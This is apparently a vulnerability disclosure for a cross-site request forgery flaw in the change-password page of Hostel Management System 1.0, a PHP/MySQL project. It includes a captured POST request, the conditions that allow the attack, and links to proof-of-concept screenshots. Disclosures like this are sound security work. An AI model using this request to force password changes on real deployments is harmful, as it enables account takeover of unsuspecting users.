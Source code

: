 ## Vulnerability Details

**Credits**:
  > Paul Rivera: (https://github.com/blackslim3)<br/>

**Tested On**:
  > Hostel Management System using PHP and MySQL 1.0 : https://github.com/Surya2Developer/Hostel_Management_System/

**Affected Version**:
  > Hostel Management System using PHP and MySQL 1.0

**Affected Site Page**:
  > /change-password.php

**Affected Code**:
  > change-password.php

**Related CWE**:
  > CWE-352: Cross-Site Request Forgery (CSRF): https://cwe.mitre.org/data/definitions/352.html

## **Details**:
  > On the change-password functionality, an attacker can induce a user to do unintended password change by visiting an attacker controlled website. 

```http
POST /hostel/change-password.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 94
Origin: http://localhost
Connection: close
Referer: http://localhost/hostel/change-password.php
Cookie: PHPSESSID=pl4c7vknv65g74iqov35nu8e01
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1


oldpassword=6786786786&newpassword=password123&cpassword=password123&changepwd=Change+Password

```

> On the POST request above, it has the following conditions that allows a CSRF to work:
- Relevant Action: change password
- Cookie-based session handling
- No unpredictable token needed
- The `oldpassword` value can be the attacker's password. 

> CSRF Exploit:
![image](https://github.com/blackslim3/cve_sidequest/blob/main/poc/assets/CSRF_exploit.png)

> CSRF Exploit Successfuly
![image](https://github.com/blackslim3/cve_sidequest/blob/main/poc/assets/CSRF_changePassword_success.png)

## **Vulnerability Impact**:
    > In a successful CSRF attack, an attacker can causes a user to perform change password unintentionally.
    
